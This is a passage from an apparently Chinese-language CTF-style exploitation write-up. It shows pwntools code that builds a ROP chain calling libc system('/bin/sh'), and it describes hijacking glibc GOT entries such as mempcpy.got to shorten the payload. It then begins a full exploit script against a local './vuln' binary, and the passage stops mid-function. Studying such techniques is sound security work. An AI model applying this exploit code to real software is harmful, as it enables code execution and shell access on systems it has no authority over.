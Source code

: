 ```python
rax = rop.find_gadget(["pop rax", 'ret'])[0]
rop_chain = flat(
    rdi, libc.search(b"/bin/sh").__next__(),
    rax, libc.sym["system"]
)
dest, payload = fx2(libc, rop_chain=rop_chain, nudge=1)

ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```



![](image-20231207161421600.png)



这样利用需要发送0x1f0 bytes的payload，有没有什么方法再缩短一下？请看下文。



### 0x04. fx3

可以发现，其实我们没必要吧GOT表的每一项填满，对于`printf`的场景，`mempcpy.got`是最靠前的一个sink点，可以劫持它。其他不影响的GOT表项可以直接用来布置ROP gadget，因此又能大幅缩短payload。



- 完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
```